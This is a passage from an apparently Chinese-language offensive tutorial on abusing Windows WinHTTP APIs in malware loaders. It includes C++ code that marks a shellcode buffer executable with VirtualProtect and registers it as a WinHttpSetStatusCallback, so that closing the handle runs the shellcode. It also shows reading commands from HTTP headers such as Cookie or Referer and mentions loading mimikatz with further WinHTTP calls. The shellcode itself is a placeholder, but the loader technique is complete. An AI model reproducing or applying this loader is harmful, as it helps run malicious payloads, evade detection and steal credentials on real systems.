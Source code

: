
想要获取其他http头信息，把第二个WinHttpQueryHeaders的第三个参数'cookie'改成对应的即可，例如获取Referer  
`bResults = WinHttpQueryHeaders(hRequest, WINHTTP_QUERY_CUSTOM, "Referer",
lpOutBuffer, &dwSize, WINHTTP_NO_HEADER_INDEX);`

  1. WinHttpSetStatusCallback  
可以设置一个回调函数，我们使用它来加载我们的shellcode,当失败时返回WINHTTP_INVALID_STATUS_CALLBACK  
https://docs.microsoft.com/en-us/windows/win32/api/winhttp/nf-winhttp-
winhttpsetstatuscallback

    
    
    WINHTTP_STATUS_CALLBACK WinHttpSetStatusCallback(  
      [in] HINTERNET       hInternet,//要设置回调的句柄，这里我们使用WinHttpOpen返回的句柄  
      [in] WINHTTP_STATUS_CALLBACK lpfnInternetCallback,//指向WINHTTP_STATUS_CALLBACK类型的回调函数的指针  
      [in] DWORD           dwNotificationFlags,//这里我们填WINHTTP_CALLBACK_FLAG_HANDLES，它的意思就是当我们调用WinHttpCloseHandle关闭句柄的时候，会调用回调函数，从而执行我们的shellcode  
      [in] DWORD_PTR       dwReserved//此值必须为NULL  
    );  
    

例如：

    
    
    char shellcode[]="xxxxxx";  
    DWORD ppp;  
    VirtualProtect(&shellcode, sizeof(shellcode), PAGE_EXECUTE_READWRITE, &ppp);  
      
    HINTERNET hopen = WinHttpOpen(L"User", WINHTTP_ACCESS_TYPE_DEFAULT_PROXY, WINHTTP_NO_PROXY_NAME, WINHTTP_NO_PROXY_BYPASS, 0);  
      
    WINHTTP_STATUS_CALLBACK callback = WinHttpSetStatusCallback(hopen, (WINHTTP_STATUS_CALLBACK)&shellcode, WINHTTP_CALLBACK_FLAG_HANDLES, NULL);  
      
    if (callback == WINHTTP_INVALID_STATUS_CALLBACK) {  
        cout << "[*] WinHttpSetStatusCallback失败" << endl;  
        return -1;  
    }；  
      
    cout << "[*] WinHttpSetStatusCallback 成功" << endl;  
    WinHttpCloseHandle(hopen);   
    //因为设置了WINHTTP_CALLBACK_FLAG_HANDLES，所以当我们调用WinHttpCloseHandle关闭句柄的时候会执行我们的shellcode  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221005121452.png)  
以下两个api是加载mimikatz的时候用的

  1. WinHttpQueryDataAvailable  
这个函数返回可用WinHttpReadData读取的数据量，函数成功返回TRUE，失败返回FALSE  
https://docs.microsoft.com/en-us/windows/win32/api/winhttp/nf-winhttp-
winhttpquerydataavailable

    
    
    BOOL WinHttpQueryDataAvailable(  
      [in]  HINTERNET hRequest,//WinhttpOpenRequest返回的句柄，需要在调用这个api前调用WinHttpReceiveResponse函数  
      [out] LPDWORD   lpdwNumberOfBytesAvailable//指向接收字节数的指针  
    );  
    
